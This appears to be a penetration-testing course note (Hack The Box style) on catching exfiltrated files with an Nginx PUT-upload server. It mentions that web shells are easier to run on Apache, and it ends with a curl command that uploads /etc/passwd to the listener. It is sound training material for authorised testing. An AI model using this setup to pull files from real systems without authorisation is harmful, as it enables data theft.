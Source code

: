 # 🟨 Catching Files over HTTP/S

A good alternative for transferring files to `Apache` is [Nginx](https://www.nginx.com/resources/wiki/)

Apache executes anything ending in `PHP` so uploading web shells and executing them is less complicated. Configuring `Nginx` to use PHP is nowhere near as simple.

**Create a Directory to Handle Uploaded Files**

```shell-session
ElFelixi0@htb[/htb]$ sudo mkdir -p /var/www/uploads/SecretUploadDirectory
```

**Change the Owner to www-data**

```shell-session
ElFelixi0@htb[/htb]$ sudo chown -R www-data:www-data /var/www/uploads/SecretUploadDirectory
```

**Create Nginx Configuration File**

We need to create the file `/etc/nginx/sites-available/upload.conf` with the content:

```shell-session
server {
    listen 9001;
    
    location /SecretUploadDirectory/ {
        root    /var/www/uploads;
        dav_methods PUT;
    }
}
```

**Symlink our Site to the sites-enabled Directory**

```shell-session
ElFelixi0@htb[/htb]$ sudo ln -s /etc/nginx/sites-available/upload.conf /etc/nginx/sites-enabled/
```

**Start Nginx**

```shell-session
ElFelixi0@htb[/htb]$ sudo systemctl restart nginx.service
```

We can encounter errors such as port already running, so we need to verify errors ->

```shell-session
ElFelixi0@htb[/htb]$ tail -2 /var/log/nginx/error.log
```

We see there is already a module listening on port 80. To get around this, we can remove the default Nginx configuration, which binds on port 80.

```shell-session
ElFelixi0@htb[/htb]$ sudo rm /etc/nginx/sites-enabled/default
```

Now we can test uploading by using `cURL` to send a `PUT` request. In the below example, we will upload the `/etc/passwd` file to the server and call it users.txt

```shell-session
ElFelixi0@htb[/htb]$ curl -T /etc/passwd http://localhost:9001/SecretUploadDirectory/users.txt
```

```shell-session
ElFelixi0@htb[/htb]$ sudo tail -1 /var/www/uploads/SecretUploadDirectory/users.txt 

user65:x:1000:1000:,,,:/home/user65:/bin/bash
```
